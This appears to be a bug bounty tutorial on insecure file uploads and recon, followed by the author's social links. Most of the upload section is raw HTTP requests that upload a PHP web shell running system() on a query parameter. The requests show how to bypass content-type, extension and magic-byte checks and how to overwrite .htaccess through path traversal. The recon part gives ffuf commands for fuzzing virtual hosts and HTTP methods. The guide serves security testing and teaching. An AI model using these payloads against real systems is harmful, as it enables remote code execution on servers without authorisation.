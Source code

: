 # Bug Bounty Hunting Mindset v1.0

<h2 align="center"><strong>Bug Bounty Hunting Mindset v1.0</strong></h2>

<p align="center">A focused and practical resource for bug bounty hunters, penetration testers, and red teamers — covering real-world techniques, bypasses, and offensive security insights.</p>

***

<h3 align="center"><strong>Vulnerabilities &#x26; Bypasses:</strong></h3>

> **Info:**
>
> <p align="center">A collection of known vulnerability types with practical methods to bypass filters, protections, and common security mechanisms.</p>

#### <sup>**V01.**</sup>**&#x20;Insecure file uploads: A complete guide to finding advanced file upload vulnerabilities:**

1. **Identifying file upload vulnerabilities**
   * Retrievable
   * Content-Type
2.  **Exploiting simple file upload vulnerabilities**

    * No restrictions

    ```http
    POST /Api/FileUpload.aspx HTTP/2
    Host: console.example.com
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
    Accept: */*

    ------WebKitFormBoundary3RwPFJztxaJvrqAq
    Content-Disposition: form-data; name="file"; filename="shell.php"
    Content-Type: application/x-php

    <?php echo system($_GET['e']); ?>
    ------WebKitFormBoundary3RwPFJztxaJvrqAq--
    ```

    * Bypassing client-side restrictions
      *   HTML "accept" attribute

          ```html
          <input type="file" accept=".jpg, .jpeg, .png, .gif" />
          ```
      * using proxy interceptors
    *   Bypassing a file extension blacklist

        <figure><img src="broken-reference" alt=""><figcaption><p><strong>Bypass file extension exclusion lists</strong></p></figcaption></figure>
    *   Bypassing a file extension whitelist

        <figure><img src=".gitbook/assets/file-upload-vuln2.png" alt=""><figcaption><p><strong>Bypass file extension inclusion lists</strong></p></figcaption></figure>

If the file upload implementation determines your file type by the content type, you can also attempt to upload a file with a whitelisted file extension but with your malicious content type:

```http
POST /Api/FileUpload.aspx HTTP/2
Host: console.example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
Accept: */*

------WebKitFormBoundary3RwPFJztxaJvrqAq
Content-Disposition: form-data; name="file"; filename="shell.png"
Content-Type: application/x-php

<?php echo system($_GET['e']); ?>
------WebKitFormBoundary3RwPFJztxaJvrqAq--
```

<p align="center">Take note of the <mark style="color:red;">filename</mark> and <mark style="color:red;">Content-Type</mark> in the example request above.</p>

3. **Exploiting advanced file upload vulnerabilities**

* Bypassing content type restrictions

```http
POST /Api/FileUpload.aspx HTTP/2
Host: console.example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
Accept: */*

------WebKitFormBoundary3RwPFJztxaJvrqAq
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: image/png

<?php echo system($_GET['e']); ?>
------WebKitFormBoundary3RwPFJztxaJvrqAq--
```

* Magic bytes
  *   These are the magic bytes for a normal image (PNG) in HEX:

      `89 50 4E 47 0D 0A 1A 0A`

```http
POST /Api/FileUpload.aspx HTTP/2
Host: console.example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
Accept: */*

------WebKitFormBoundary3RwPFJztxaJvrqAq
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-php

‰PNG␍␊␚␊
<?php echo system($_GET['e']); ?>
------WebKitFormBoundary3RwPFJztxaJvrqAq--
```

<p align="center"><a href="https://en.wikipedia.org/wiki/List_of_file_signatures">List of file signatures - Wikipedia</a></p>

* Overwriting server configuration files
  * .htaccess

```http
POST /Api/FileUpload.aspx HTTP/2
Host: console.example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
Accept: */*

------WebKitFormBoundary3RwPFJztxaJvrqAq
Content-Disposition: form-data; name="file"; filename="../../../.htaccess"
Content-Type: text/plain

# Your server configuraton rules
------WebKitFormBoundary3RwPFJztxaJvrqAq--
```

***

#### <sup>**V02.**</sup>

***

<h3 align="center"><strong>Hunting Techniques &#x26; Ideas:</strong></h3>

> **Info:**
>
> <p align="center">General strategies, techniques, and creative approaches to help you discover more bugs and uncover hidden attack surfaces.</p>

#### <sup>**T01.**</sup>**&#x20;7 Overlooked recon techniques to find more vulnerabilities:**

1. **Targeted wordlists**
   1. [CeWL](https://github.com/digininja/CeWL)
2. **Virtual host (VHost) enumeration**

```sh
ffuf -u https://example.com -H "Host: FUZZ.example.com" -w /path/to/wordlist
```

3. **Forced browsing using different HTTP methods**

```sh
ffuf -u https://api.example.com/PATH -X METHOD -w /path/to/wordlist:PATH -w /path/to/http_methods:METHOD
```

4. **JavaScript file monitoring**
   1. [JSMON](https://github.com/robre/jsmon)
5. **Crawling with different user-agent headers**
   1. <kbd>Proxy → Proxy settings → Tools → Proxy → HTTP match and replace rules</kbd>
6. **Finding related assets with favicon hashes**
   1. [Shodan](https://www.shodan.io/)
   2. [Censys](https://search.censys.io/)
7. **Looking up legacy versions of JavaScript files**
   1. [internet archives](https://archive.org/)

***

#### <sup>**T02.**</sup>

***

<h3 align="center"><strong>Closing Note:</strong></h3>

It is my pleasure and honor to have your support and follow-up. I look forward to exchanging knowledge and collaborating with you in the field of cybersecurity.

Stay connected:

* **X Platform:** [iProgrammer16](https://x.com/iProgrammer16)
* **X Platform:** [1ZeroDay](https://x.com/1ZeroDay)
* **LinkedIn:** [Linkedin](https://www.linkedin.com/in/saleh16abdullah/)
* **Github:** [iProgrammer16](https://github.com/iProgrammer16)
* **Telegram Channel:** [1ZeroDay](https://t.me/+ylDx8zGNLEwzMWU8)
* **For collaboration on HackerOne:** [HackerOne Profile - iProgrammer16](https://hackerone.com/iprogrammer16)
* **All social links in one place:** [Linktr](https://linktr.ee/1ZeroDay)
